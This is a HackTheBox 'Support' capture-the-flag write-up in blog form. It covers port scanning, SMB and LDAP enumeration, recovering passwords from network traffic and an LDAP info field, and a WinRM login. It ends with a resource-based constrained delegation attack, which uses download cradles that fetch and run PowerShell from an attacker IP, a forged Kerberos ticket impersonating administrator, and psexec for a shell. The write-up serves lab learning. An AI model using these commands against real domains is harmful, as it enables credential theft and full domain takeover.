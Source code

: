 ```yaml
---
title: HackTheBox - Support
date: 2022-08-05
tags:
    - hackthebox
    - tech
---
```


An "easy" machine, focused on active directory exploitation.

I start out scanning this box like I would any other.

I have a script that runs [rustscan](https://github.com/RustScan/RustScan), then
feeds that output into nmap to use it's scripting engine.

Then, formats that out to make it a bit easier to parse through.

```
#!/bin/bash
# Want to overwrite the nmap results, but not the folders

ip=$1
output=~/code/htb
mkdir -p $output/$ip
echo "Currently Scanning: $ip"
sudo rustscan -a $ip -- -A -sV -oG $output/$ip/initial.nmap $ip
echo "Finished scanning: "
out=$(cat $output/$ip/initial.nmap)

echo "printing out"
echo "$out"
echo "done printing out"

formatted=$(echo "$out" | grep -m 2 "^Host" | tail -n1 | cut -d' ' -f2,4- | awk '{print "Host: " $1 " Ports: " NF-1; $1=""; for(i=2; i<=NF; i++) { a=a" "$i; }; split(a,s,","); for(e in s) { split(s[e],v,"/"); printf "%-8s %s/%-7s %s | %s\n" , v[2], v[3], v[1], v[5], v[7]}; a="" }')

echo "printing formatted"
echo "$formatted"
echo "done printing formatted"

echo "$formatted" > $output/$ip/formatted.nmap

sudo rm $output/$ip/initial.nmap
```

... and the output for the scan:

```
Host: 10.129.81.70 Ports: 80
open     tcp/ 53     domain | Simple DNS Plus
open     tcp/ 88     kerberos-sec | Microsoft Windows Kerberos (server time: 2022-08-05 16:31:16Z)
open     tcp/ 135    msrpc | Microsoft Windows RPC
open     tcp/ 139    netbios-ssn | Microsoft Windows netbios-ssn
open     tcp/ 389    ldap | Microsoft Windows Active Directory LDAP (Domain: support.htb0.
         / Site: Default-First-Site-Name)  |
open     tcp/ 445    microsoft-ds? |
open     tcp/ 464    kpasswd5? |
open     tcp/ 593    ncacn_http | Microsoft Windows RPC over HTTP 1.0
open     tcp/ 636    tcpwrapped |
open     tcp/ 3268   ldap | Microsoft Windows Active Directory LDAP (Domain: support.htb0.
         / Site: Default-First-Site-Name)  |
open     tcp/ 3269   tcpwrapped |
open     tcp/ 5985   http | Microsoft HTTPAPI httpd 2.0 (SSDP|UPnP)
open     tcp/ 9389   mc-nmf | .NET Message Framing
open     tcp/ 49375  msrpc | Microsoft Windows RPC
open     tcp/ 49664  msrpc | Microsoft Windows RPC
open     tcp/ 49668  msrpc | Microsoft Windows RPC
open     tcp/ 49670  ncacn_http | Microsoft Windows RPC over HTTP 1.0
open     tcp/ 49682  msrpc | Microsoft Windows RPC
open     tcp/ 49699  msrpc | Microsoft Windows RPC
```

I always hate windows boxes because the initial scan says so much - but also so little.

I begun my enumeration by just seeing if there are open shares.

```
smbclient -L //support.htb                                                                     INT ✘
Can't load /etc/samba/smb.conf - run testparm to debug it
Password for [WORKGROUP\matthew]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share
```

We're able to connect to the `support-tools` share by doing `smbclient //support.htb/support-tools`, and are greeted
with a list of various `.exe` files.

```
smb: \> ls
  .                                   D        0  Wed Jul 20 12:01:06 2022
  ..                                  D        0  Sat May 28 06:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 06:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 06:19:55 2022
  putty.exe                           A  1273576  Sat May 28 06:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 06:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 12:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 06:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 06:19:43 2022
```

I noticed that the only non-standard binary here was `UserInfo.exe`, and figured
I'd probably want to do something like that.

My first was to try and get the thing to run and analyze it with 

[dnSpy](https://github.com/dnSpy/dnSpy)

But, that involved setting up a VM, and I didn't _really_ want to do that if I didn't have to.

After spelunking for a bit, I realized that this is simply making requests to a
server, and those can be probably captured with wireshark.

After all, they do provide us with a windows version in the support tools folder...

Making a simple request with wine + capturing network traffic on tun0, I can
view one of the bind requests to see a password being sent off.

[](/images/wireshark.png)


`support\nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

With these credentials, can dump ldap `ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapdump.txt`

But, the better command is to specifically dump the `support` user

`ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=support,CN=Users,DC=support,DC=htb"`

In the output, we find one line that looks particularly suspicious

```
    ~/code/htb/support.htb  cat ldapdump.txt                                                                                   ✔
# extended LDIF
#
# LDAPv3
# base <CN=support,CN=Users,DC=support,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# support, Users, support.htb
...
info: Ironside47pleasure40Watchful
...

```

### Logging in with WINRM

It looks like a password, so testing it with WinRM gets a shell, and the user flag!

`evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful`

### Enumerating with Bloodhound


##### Setting up neo4j
```
docker run \                                                                                                        INT ✘
    --publish=7474:7474 --publish=7687:7687 \
    --volume=$HOME/neo4j/data:/data \
    neo4j

```

Create credentials by going to browser at `localhost:7474


Download cradle:
`(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/Powermad.ps1') | IEX`
`(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/PowerView.ps1') | IEX`


https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericall


```
1. Get the required modules loaded into system
(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/Powermad.ps1') | IEX
(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/PowerView.ps1') | IEX


# Create a "computer" that we control, that has ability to create service tickets for anything
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC.SUPPORT.HTB | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}


# Generate Kerberos Ticket for Administrator on Behalf of the newly created attackersystem
getST.py -spn cifs/DC.SUPPORT.HTB -impersonate administrator -dc-ip support.htb SUPPORT.HTB/attackersystem:Summer2018!

# Login using Ticket with PSEXEC
export KRB5CCNAME=/home/matthew/code/htb/support.htb/administrator.ccache 
psexec.py support.htb/administrator@dc.support.htb -k -no-pass 
```